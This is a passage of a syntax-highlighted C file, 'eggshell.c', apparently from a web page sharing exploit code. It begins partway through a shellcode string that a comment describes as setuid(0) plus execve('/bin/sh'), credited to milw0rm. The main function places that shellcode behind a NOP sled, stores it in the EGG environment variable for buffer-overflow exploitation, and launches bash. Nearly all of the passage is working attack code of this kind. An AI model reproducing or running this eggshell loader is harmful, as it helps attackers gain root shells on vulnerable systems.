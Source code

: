   <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\x89</span><span style="color: #660099; font-weight: bold;">\xe1</span>"</span>                    <span style="color: #666666; font-style: italic;">// mov  %esp, %ecx</span>
  <span style="color: #ff0000;">"<span style="color: #660099; font-weight: bold;">\xcd</span><span style="color: #660099; font-weight: bold;">\x80</span>"</span><span style="color: #339933;">;</span>                   <span style="color: #666666; font-style: italic;">// int  $0x80</span>
&nbsp;
<span style="color: #808080; font-style: italic;">/* This is not my shell code , I got it from milw0rm.com.
Its  setuid(0) + execve("/bin/sh", ["/bin/sh", NULL])
&lt;a href="http://www.milw0rm.com/shellcode/1637"&gt;http://www.milw0rm.com/shellcode/1637&lt;/a&gt;
*/</span>
&nbsp;
<span style="color: #993333;">int</span> main<span style="color: #009900;">&#40;</span><span style="color: #993333;">void</span><span style="color: #009900;">&#41;</span>
<span style="color: #009900;">&#123;</span>
<span style="color: #993333;">char</span> egg<span style="color: #009900;">&#91;</span><span style="color: #0000dd;">512</span><span style="color: #009900;">&#93;</span><span style="color: #339933;">;</span>
<span style="color: #000066;">puts</span><span style="color: #009900;">&#40;</span><span style="color: #ff0000;">"loaded eggshell into env"</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #000066;">memset</span><span style="color: #009900;">&#40;</span>egg<span style="color: #339933;">,</span>NOP<span style="color: #339933;">,</span><span style="color: #0000dd;">512</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #000066;">memcpy</span><span style="color: #009900;">&#40;</span><span style="color: #339933;">&</span>amp<span style="color: #339933;">;</span>egg<span style="color: #009900;">&#91;</span><span style="color: #0000dd;">512</span><span style="color: #339933;">-</span><span style="color: #000066;">strlen</span><span style="color: #009900;">&#40;</span>shellcode<span style="color: #009900;">&#41;</span><span style="color: #009900;">&#93;</span><span style="color: #339933;">,</span>shellcode<span style="color: #339933;">,</span><span style="color: #000066;">strlen</span><span style="color: #009900;">&#40;</span>shellcode<span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
setenv<span style="color: #009900;">&#40;</span><span style="color: #ff0000;">"EGG"</span><span style="color: #339933;">,</span> egg<span style="color: #339933;">,</span> <span style="color: #0000dd;">1</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
putenv<span style="color: #009900;">&#40;</span>egg<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #000066;">system</span><span style="color: #009900;">&#40;</span><span style="color: #ff0000;">"/bin/bash"</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #b1b100;">return</span><span style="color: #009900;">&#40;</span><span style="color: #0000dd;"></span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #009900;">&#125;</span>
<span style="color: #339933;">-------------------------------</span>eggshell.<span style="color: #202020;">c</span><span style="color: #339933;">-------------------------------</span></pre>
      </td>
    </tr>
  </table>
</div>
